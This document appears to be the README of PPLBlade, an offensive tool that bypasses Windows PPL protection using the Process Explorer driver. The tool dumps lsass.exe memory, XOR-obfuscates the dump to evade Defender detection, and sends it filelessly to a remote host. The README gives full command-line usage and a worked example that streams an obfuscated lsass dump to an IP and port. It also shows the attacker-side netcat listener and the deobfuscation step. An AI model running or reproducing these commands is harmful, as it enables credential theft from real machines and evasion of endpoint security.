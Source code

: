 # PPLBlade
Protected Process Dumper Tool that support obfuscating memory dump and transferring it on remote workstations without dropping it onto the disk.

**Key functionalities**:
1) Bypassing PPL protection
2) Obfuscating memory dump files to evade Defender signature-based detection mechanisms
3) Uploading memory dump with RAW and SMB upload methods without dropping it onto the disk (fileless dump)


Overview of the techniques, used in this tool can be found here: https://tastypepperoni.medium.com/bypassing-defenders-lsass-dump-detection-and-ppl-protection-in-go-7dd85d9a32e6

_Note that PROCEXP15.SYS is listed in the source files for compiling purposes. It does not need to be transferred on the target machine alongside the PPLBlade.exe._

_It’s already embedded into the PPLBlade.exe. The exploit is just a single executable._

**Modes**:
1) **Dump** - Dump process memory using PID or Process Name
2) **Decrypt** - Revert obfuscated(--obfuscate) dump file to its original state
3) **Cleanup** - Do cleanup manually, in case something goes wrong on execution(Note that the option values should be the same as for the execution, we're trying to clean up)
4) **DoThatLsassThing** - Dump lsass.exe

**Handle Mode**s:
1) **Direct** - Opens PROCESS_FULL_ACCESS handle directly, using OpenProcess() function
2) **Procexp** - Uses PROCEXP152.sys to obtain a handle 

```
Usage of PPLBlade.exe:
  -driver string
        Path where the driver file will be dropped (default: current directory)
  -dumpmode string
        Dump mode [local|network] (default "local")
  -dumpname string
        Name of the dump file (default "PPLBlade.dmp")
  -handle string
        Method to obtain target process handle [direct|procexp] (default "direct")
  -help
        Prints this help message
  -ip string
        IP of the remote server
  -key string
        XOR Key for obfuscation (default "PPLBlade")
  -mode string
        Kill or Dump process [dump|decrypt|cleanup|dothatlsassthing] (default "dump")
  -name string
        Process name of target process
  -network string
        Method for network transfer[raw|smb] (default "raw")
  -obfuscate
        Obfuscate dump file
  -pass string
        SMB password
  -pid int
        PID of target process (prioritized over process name)
  -port int
        PORT on the remote server
  -quiet
        Quiet mode
  -service string
        Name of the service (default "PPLBlade")
  -share string
        share name
  -user string
        SMB username

Examples:
PPLBlade.exe --mode dothatlsassthing
PPLBlade.exe --mode dump --name lsass.exe --handle procexp --obfuscate --dumpmode network --network raw --ip 192.168.1.17 --port 1234
PPLBlade.exe --mode decrypt --dumpname PPLBlade.dmp --key PPLBlade
PPLBlade.exe --mode cleanup
```


**Examples:**

Basic POC that uses PROCEXP152.sys to dump lsass:

```
PPLBlade.exe --mode dothatlsassthing
```
It will use PROCEXP152.sys driver to dump lsass.exe. _(Note that it does not XOR dump file, provide an additional obfuscate flag to enable the XOR functionality)_



Upload the obfuscated LSASS dump onto a remote location:

```
PPLBlade.exe --mode dump --name lsass.exe --handle procexp --obfuscate --dumpmode network --network raw --ip 192.168.1.17 --port 1234
```

Attacker host:
```
nc -lnp 1234 > lsass.dmp
python3 deobfuscate.py --dumpname lsass.dmp
```

Deobfuscate memory dump:
```
PPLBlade.exe --mode descrypt --dumpname PPLBlade.dmp --key PPLBlade
````


